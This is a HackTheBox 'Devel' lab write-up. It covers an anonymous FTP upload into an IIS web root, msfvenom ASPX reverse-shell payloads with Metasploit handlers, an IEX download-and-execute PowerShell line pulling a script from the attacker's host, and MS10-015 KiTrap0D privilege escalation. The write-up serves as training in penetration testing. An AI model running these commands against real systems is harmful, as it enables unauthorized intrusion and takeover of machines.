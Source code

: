 
## Reconnaissance

### nmap 

- Open Service 
	- Port 21: FTP service
	- Port 80: http (Microsoft IIS httpd 7.5)

![](machine/devel/IMG/0.png)

### FTP 
- Using anonymous to login

![[machine/devel/IMG/1.png]]

- Check the content of FTP server by "ls"

![[machine/devel/IMG/2.png]]

- Create a text file with the content "This is a test file".
- Upload it to FTP.
![[machine/devel/IMG/3.png]]
### Web Service 
- View the test.txt on web site, It can show the content we just created.
- We confirm that the FTP directory is same as the web service.

![[machine/devel/IMG/4.png]]
- And according to nmap result, we also know the web service is running on Microsoft IIS.

## Exploit 
- So, I think we can generate the meterpreter webshell in ASPX format.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.17.145 LPORT=4444 -f aspx > exploit.aspx
```

![[machine/devel/IMG/5.png]]

- Generate the powershell webshell in ASPX format
```
msfvenom -p windows/powershell_reverse_tcp LHOST=10.10.17.145 LPORT=4444 -f aspx > exploit4.aspx
```

![[machine/devel/IMG/6.png]]

- Upload webshell 

![[machine/devel/IMG/7.png]]

- Create a handler by metasploit
	1.  meterpreter shell
	```
	metasploit -q 
	use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set LHOST 10.10.17.145
	set LPORT 4444
	```

![[machine/devel/IMG/8.png]]

	2. powershell 

```
set payload windows/powershell_reverse_tcp
set LHOST 10.10.17.145
set LPORT 4444
```

![[machine/devel/IMG/9.png]]

- Execute the webshell and Check the handler
![[machine/devel/IMG/10.png]]
	meterpreter shell get response

![[machine/devel/IMG/11.png]]

	2. powershell get response 

![[machine/devel/IMG/12.png]]

- Get User Flag
![](machine/devel/IMG/13.png)
## Post Exploitation 
- Check Systmeinfo

![[machine/devel/IMG/14.png]]

- Copy it to local file

![[machine/devel/IMG/15.png]]

- Using windows-exploit-suggester python to enumerate Local Privc possibilities
```
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2023-05-21-mssb.xls --systeminfo devel.txt
```

![[machine/devel/IMG/16.png]]

![[machine/devel/IMG/17.png]]

- Using Sherlock to enumbertate Local Privc possibilities
- Upload shelock powershell file, with IEX download, the powershell will be executed.
	```
	IEX(New-Object Net.Webclient).downloadString('http://10.10.17.145:9797/Sherlock.ps1')
	```

![[machine/devel/IMG/18.png]]
![[machine/devel/IMG/19.png]]
![[machine/devel/IMG/20.png]]

- With both of the results, I decide to tru MS10-015.
  ```
  searchsploit ms10-015
  ```

![[machine/devel/IMG/21.png]]

- ms10-015
	- Title: Microsoft Windows NT/2000/2003/2008/XP/Vista/7 - 'KiTrap0D' User Mode to Ring Escalation (MS10-015)
	- CVE-2010-0232
	- Microsoft Windows NT **GP** Trap Handler Allows Users to Switch Kernel Stack

![[machine/devel/IMG/22.png]]

### Privilege Escalation 
- According to some research, I found most of the exploit sample use metasploit to finish it.
	1. Background the current reverse shell

![[machine/devel/IMG/23.png]]

	2. Change the handler to ms10-015 exploit
	
```
search ms10-015
use exploit/windows/local/ms10_015_kitrap0d
```
![[machine/devel/IMG/27.png]]


	3.   Confirm sessions, and set related options
	```
	sessions 
	set session 7
	set LHOST 10.10.17.145
	set LPORT 4444
	```

![[machine/devel/IMG/24.png]]

- Check whoami 

![[machine/devel/IMG/25.png]]

- Get Root Flag

![](./IMG/26.png)
## Reference 

### Write up
- [(Video)(Writeup)ippsec - Devel](https://www.youtube.com/watch?v=2LNyAbroZUk)
- [(Video)Windows Privilege Escalation](https://www.youtube.com/watch?v=uTcrbNBcoxQ&t=4845s)
### ms10-015
- [(Exploit DB) ms10-015](https://www.exploit-db.com/exploits/11199)
- [CVE-2012-0232(ms10-015)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-0232)
- [ms10-015_detail exploit_explain](https://vk9-sec.com/kitrap0d-windows-kernel-could-allow-elevation-of-privilege-ms10-015-cve-2010-0232/)
### Tools 
- [(GITHUB)windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [(GITHUB)windows powershell sherlock](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)
### msfvenom
- [msfvenom & multi handler](https://ithelp.ithome.com.tw/articles/10278991)
- [msfvenom guideline](https://www.796t.com/article.php?id=162291)



###### tags: `HackTheBox`  `Windows` `FTP` `webshell` `msfvenom` `ms10-015` `Windows Privilege Escalation` 